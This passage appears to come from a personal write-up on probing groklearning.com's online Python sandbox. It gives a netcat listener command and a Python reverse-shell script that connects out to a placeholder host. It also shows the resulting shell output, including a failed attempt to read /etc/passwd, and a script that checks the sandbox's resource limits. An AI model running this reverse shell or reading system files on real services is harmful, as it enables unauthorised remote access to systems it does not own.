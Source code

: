 ```bash
$ sudo nc -l -p 80
```

Next thing I had to do is load a reverse shell script in Python to
groklearning.com. This the script I've used for my Python reserve
shell:

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('x.x.x.x', 80))

s.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)

p = subprocess.call(['/bin/sh', '-i'])
```

As soon as I fired up the Python reverse shell I was able to see the
shell prompt on my netcat listener.

Then I tried executing some shell commands:

```bash
$ ls
/bin/sh: 1: Cannot fork
$ pwd
/tmp/tmphBjnv5
$ cat /etc/passwd
/bin/sh: 3: Cannot fork
$ uname -a
/bin/sh: 4: Cannot fork
$ ^D
```

Unfortunately, I wasn't able to do much with my reverse shell, as it
seems there were some limits in place, so I went further into checking
things on the target machine.

## Checking our limits

Next thing I did is to check the limits on the target system. I've
used the following Python script to check our limits:

```python
import subprocess

p = subprocess.Popen(['/bin/bash', '-c', 'ulimit -a'], stdout=subprocess.PIPE)

print(p.stdout.read())
```
